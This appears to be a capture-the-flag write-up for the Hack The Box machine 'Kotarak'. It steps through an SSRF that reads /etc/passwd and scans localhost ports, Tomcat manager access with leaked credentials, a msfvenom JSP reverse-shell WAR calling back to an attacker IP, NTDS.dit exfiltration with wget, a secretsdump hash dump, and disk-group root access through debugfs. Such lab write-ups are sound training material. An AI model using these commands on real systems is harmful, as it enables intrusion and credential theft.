 # [Kotarak](https://app.hackthebox.com/machines/kotarak)

```bash
nmap -p- --min-rate 10000 10.10.10.55 -Pn 
```

![Alt text](img/image.png)


After detection of open ports(22,8009,8080,60000), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,8009,8080,60000 10.10.10.55   
```

![Alt text](img/image-1.png)



I start enumeration web application from port (60000). While looking at source code, I see `url.php` file here.

![Alt text](img/image-2.png)


I enter value into 'path' parameter.

![Alt text](img/image-3.png)


I change URL with local file by adding `file:///etc/passwd`.

![Alt text](img/image-4.png)


Let's look at localhost ports via this enumeration.

![Alt text](img/image-5.png)

So, I use fuzzer of owasp zap to find a port which can give me a lot of information (it is basically doing port scanning from URL).

For example ,we  can see information about SSH by typing 'localhost:22'

![Alt text](img/image-6.png)


I looked at port (888).

![Alt text](img/image-7.png)

I want to look at `backup` file, I cannot see anything.

![Alt text](img/image-8.png)


That's why, I choose the method too see this file directly.
`url=> https://10.10.10.55:60000/url.php?path=localhost:888?doc=backup`

![Alt text](img/image-9.png)


I grab credentials from here.

admin: 3@g01PdhB!

I access the web application's Tomcat manager from this [url](https://10.10.10.55:8080/manager/html).


![Alt text](img/image-10.png)


Let's create malicious `.war` file via `msfvenom` command.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=1337 -f war > dr4ks.war
```

![Alt text](img/image-11.png)


While clicking `dr4ks`, I will got reverse shell.

![Alt text](img/image-12.png)


I got reverse shell from port (1337).

![Alt text](img/image-13.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-14.png)


I found `.dit` file from this location '/home/tomcat/to_archive/pentest_data'. It means it can be data belongs to Active Directory like `NTDS.DIT` data which stores all information about Active Directory.

![Alt text](img/image-15.png)


Let's get this data by opening HTTP server.

1.Let's open HTTP server.

```bash
python3 -m http.server --bind 10.10.10.55 3169
```

![Alt text](img/image-16.png)


2.Then, grab these files via `wget` command to attacker machine.

```bash
wget http://10.10.10.55:3169/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
wget http://10.10.10.55:3169/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

![Alt text](img/image-17.png)


Let's use `secretsdump.py` script of `Impacket` to dump .dit database.

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit LOCAL
```

![Alt text](img/image-18.png)


I grab the password HASH of `atanas` and administrator users.

![Alt text](img/image-19.png)


atanas: f16tomcat!


user.txt

![Alt text](img/image-20.png)


While running `id` command, it says that we are in `disk` group which is so important, almost means root access. (have permission to directories in /**dev**)

![Alt text](img/image-21.png)


Let's look at which directory is root access via `ls -al` command.

![Alt text](img/image-22.png)

I got /dev/dm-0 from here and use `debugfs` command to read data from here.

![Alt text](img/image-24.png)


While browsing here, I found a flag


![Alt text](img/image-23.png)